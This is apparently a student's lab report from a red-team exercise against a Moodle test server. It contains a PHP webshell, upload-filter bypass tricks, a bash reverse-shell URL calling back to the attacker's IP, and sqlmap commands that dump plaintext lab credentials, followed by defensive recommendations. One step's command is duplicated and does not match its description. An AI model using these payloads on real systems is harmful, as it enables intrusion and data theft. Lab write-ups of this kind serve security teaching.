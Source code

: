 # 🛡️ SSI Project – Red Team Exploitation Report
  
  This report presents the various exploitation attempts made as part of the Information Systems Security (ISS) project, from a Kali Linux machine aimed at compromising the Moodle web server hosted on Ubuntu.
  The aim was to obtain a reverse shell using an upload vulnerability.
  
  ## First attack

---
  
  ## 🔍 Objective
  
  The aim of the attack was to :
  
  - Bypass the **upload file filtering** system
  - Upload a **file containing malicious PHP code**.
  - Execute this code remotely via the browser
  - Establish a **reverse shell connection** to the Kali machine (attacker)
  
  ---
  
  ## 🔓 Technical context
  
  - Target machine (victim)** : Ubuntu 22.04, Moodle server with an upload form
  - Attacking machine** : Kali Linux on the same local network (192.168.56.X)
  - PHP-side back-end filtering** prevents the upload of suspicious files via a blacklist of strings such as :
  
  php
  eval(, system(, exec(, shell_exec(, base64_decode(,
  passthru(, pcntl_exec(, posix_getuid(, <script>, etc.
  
  ---
  
  🧨Attack I – Reverse Shell Attempts
  
  ### Step 1: Create a PHP reverse shell
  
  On Kali, I created a basic shell:

  ```bash
  <?php system($_GET['cmd']); ?>
  ```
  
  ### Step 2: Attempt to bypass with double extensions
  
  - First attempt: rename file to shell.php.png
  - Then: shell.png.php

  ![image](https://github.com/user-attachments/assets/00e97c40-51be-48d6-8671-289b41d04f29)

  I then tried uploading the malicious file:   
           ![image](https://github.com/user-attachments/assets/699bb173-b445-476f-9f4a-ee2bbad396f5)


  We obtained :
  
  ![image](https://github.com/user-attachments/assets/26c0b211-1f3f-4d17-b24f-16c3fb27d836)
  
  🔴 Failed: The backend detected the malicious content, despite the file appearing as an image.
  
  
  Error message:
  
  
  ❌ File failed security scan
  
  
  ---

      
  Filtering Bypass Attempts
  
  Attempt: Appending PHP payload directly to an image
  
  ```bash
  echo "<?php system(\$_GET['cmd']); ?>" >> shell.png
  mv shell.png shell.php.png
  ```

       
  Working Solution: Metadata Injection + Obfuscation 
  
     1. Use a clean, existing image
            
          ```bash
          cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
          ```
                            
          ![image](https://github.com/user-attachments/assets/d6660168-cb58-419d-b93f-e2ee53d6af1f)
  
      
     2. Inject an obfuscated PHP payload into the image’s metadata
        ```bash
          cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
          ```
      
     This avoids all blacklisted keywords (system, eval, etc.)        
      
     3. Renommer l’image avec une double extension
        ```bash
          mv shell.png shell.php.png
          ```
  
     4. Upload successful  
  
     ![image](https://github.com/user-attachments/assets/24ff24d8-0afd-49c9-a9ed-a2ddf21052de)
      
  
  The file passed the scan because :
  
  - The visible image content was clean
  
  - The malicious payload was hidden in metadata
  
  - No blacklisted strings were detected
  
  
  ---

  Final Goal: Trigger Remote Code Execution
  
  1. Start a Netcat listener on Kali:
  
     ```bash
     nc -lvnp 4444
     ```
  
     ![image](https://github.com/user-attachments/assets/f4e72480-6804-4099-8820-356d4f934546)
      
   2. Trigger the payload through the browser
      ```bash
      http://192.168.56.101:5173/upload/shell.php.png?a=system&b=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.56.102/4444+0>%261'
      ```   
  
  Conclusion :
  
  Although the full reverse shell wasn’t successfully established (due to server-side execution restrictions or PHP config), the following was achieved:
  
  ✅ Successfully bypassed file upload filtering
  ✅ Uploaded a disguised PHP webshell
  ✅ Injected a stealthy payload using image metadata
  ✅ Identified and documented backend protections
  
  This demonstrates that poorly configured file upload systems remain vulnerable, especially when tools like exiftool can inject code into alternate vectors like metadata.
  
  
  
  
  Blue Team Recommendations :
  
  To improve the defense against such attacks:
  
  ✅ Implement deep filtering of metadata (Title, Description, EXIF Comment)
  
  ✅ Disable PHP execution in upload directories
  
  ✅ Rename and hash uploaded files server-side
  
  ✅ Add server-side antivirus scanning (e.g., ClamAV) and sandbox execution for analysis
  
  ---
  
  ## Second attack
  
  ---
  
  ## 🔍 Objective
  The goal of this attack was to:
  * Detect SQL injection vulnerabilities in the login process
  * Exploit the injection to extract data from the database
  * Demonstrate the risk of improperly handled SQL inputs
  * Retrieve sensitive information from the ssi_project database
  
  ---
    
  ## 🔓 Technical Context
  * Target (Victim): Ubuntu 22.04 running Apache2, MySQL 8.0, Moodle web service
  * Attacker (Red Team): Kali Linux, connected via internal network (192.168.56.X)
  * Login page vulnerable to SQL injection via POST parameter username
  * No input sanitization or prepared statements in the PHP back-end
  
  --- 
  ## 💥 Attack I – SQL Injection on Login Form
  
  ### Step 1: Reconnaissance and Injection Point
  The login form sends POST data to login.php:
  ```bash
  curl -X POST -d "username=test&password=test" http://192.168.56.100:8082/login.php
  ```
  Observed response:
  ```bash
  {"status": "error"}
  ```
  ![image](https://github.com/user-attachments/assets/60e6235f-f04b-4ba6-8fc6-c954126cd1c9)
  
  Testing with crafted payload:
  ```bash
  curl -X POST -d "username=' OR 1=1 -- -&password=x" http://192.168.56.100:8082/login.php
  Still returns:
  ```
  {"status": "error"}
  
  ![image](https://github.com/user-attachments/assets/64f92c05-19b1-4545-822c-e85994fd79b5)
  
  ### Step 2: Use sqlmap to Confirm Injection
  Using sqlmap:
  ```bash
  sqlmap -u "http://192.168.56.100:8082/login.php" --data="username=test&password=test" --batch --level=5 --risk=3
  ```
  
  Result:
  * SQLi confirmed on username via error-based, boolean-based, time-based, and UNION injection
  * Extracted tables: users, events
  
  
  ### Step 3: Dumping Database Contents
  #### 1: Detecting SQL Injection
  ```bash
  sqlmap -u "http://192.168.56.100:8082/login.php" \
         --method=POST \
         --data="username=test&password=test" \
         --batch --level=2 --risk=1
  ```
  Result: SQLMap identified that the username parameter is injectable via:
  
  Boolean-based blind
  
  Error-based
  
  Time-based blind
  
  UNION-based injection
  
  DBMS: MySQL >= 5.6
  
  #### 2: Database Enumeration
  
   List all databases
  ```bash
  sqlmap -u "http://192.168.56.100:8082/login.php" \
         --method=POST \
         --data="username=test&password=test" \
         -b --dbs
  ```
  ✅ Found database: ssi_project
  
   List tables from ssi_project
  ```bash
  sqlmap -u "http://192.168.56.100:8082/login.php" \
         --method=POST \
         --data="username=test&password=test" \
         -D ssi_project --tables
  ```
  
  ![image](https://github.com/user-attachments/assets/0882f0ff-8d11-40aa-bd27-e272df636eb9)
  
  ![image](https://github.com/user-attachments/assets/694a4ce4-672c-49df-b5e5-57c5e434a13a)
  
  ✅ Found tables: users, events
  
  #### 3: Dumping User Credentials
  ```bash
  sqlmap -u "http://192.168.56.100:8082/login.php" \
         --method=POST \
         --data="username=test&password=test" \
         -D ssi_project -T users --dump
  ```
  ![image](https://github.com/user-attachments/assets/d22ef777-7b28-4937-813a-2716f1a7460e)
  
  Extracted records:
  ```bash
  Database: ssi_project
  Table: users
  +----+----------------------+---------+----------+----------+
  | id | email                | role    | password | username |
  +----+----------------------+---------+----------+----------+
  | 1  | vince@bare.com       | student | bare     | vincent  |
  | 2  | jules@fedit.com      | teacher | fedit    | jules    |
  | 4  | gauthier@mallard.com | student | mallard  | gauthier |
  +----+----------------------+---------+----------+----------+
  
  ```
  ⚡ These passwords appear to be stored in plaintext, which is a major security vulnerability.
  
  And then with events table : 
  ```bash
  Database: ssi_project                                                                                                                                                   
  Table: events
  [3 entries]
  +----+---------+-----------------------------------------+------------+---------------------------------------+
  | id | user_id | title                                   | event_date | description                           |
  +----+---------+-----------------------------------------+------------+---------------------------------------+
  | 1  | 2       | Cours de PHP                            | 2025-04-02 | Introduction au langage PHP           |
  | 2  | 1       | R\\u00e9vision s\\u00e9curit\\u00e9 web | 2025-04-05 | <script>alert(\\"XSS!\\");<\\/script> |
  | 3  | 1       | Examen final                            | 2025-04-10 | Salle 203 - 14h                       |
  +----+---------+-----------------------------------------+------------+---------------------------------------+
  
  ```
  ![image](https://github.com/user-attachments/assets/9dc84bb9-a2b9-4104-949c-b87e0f961d48)
  
  
  ## ✅ Achievements
  * Detected and exploited a critical SQL injection vulnerability
  * Fully extracted user credentials and event data
  * Demonstrated the lack of prepared statements and input validation
  
  ## 🛡️ Blue Team Recommendations
  1. Use prepared statements with parameter binding
  2. Hash passwords using password_hash() instead of storing them in plaintext
  3. Implement WAF (Web Application Firewall) to block SQLi attempts
  4. Limit SQL error output in production to avoid exposing database structure
  5. Log and monitor login attempts to detect anomalies
  6. Use LIMIT 1 and safe user query patterns
  This report validates the critical impact of SQL injection and demonstrates the ease of database compromise in the absence of secure coding practices.
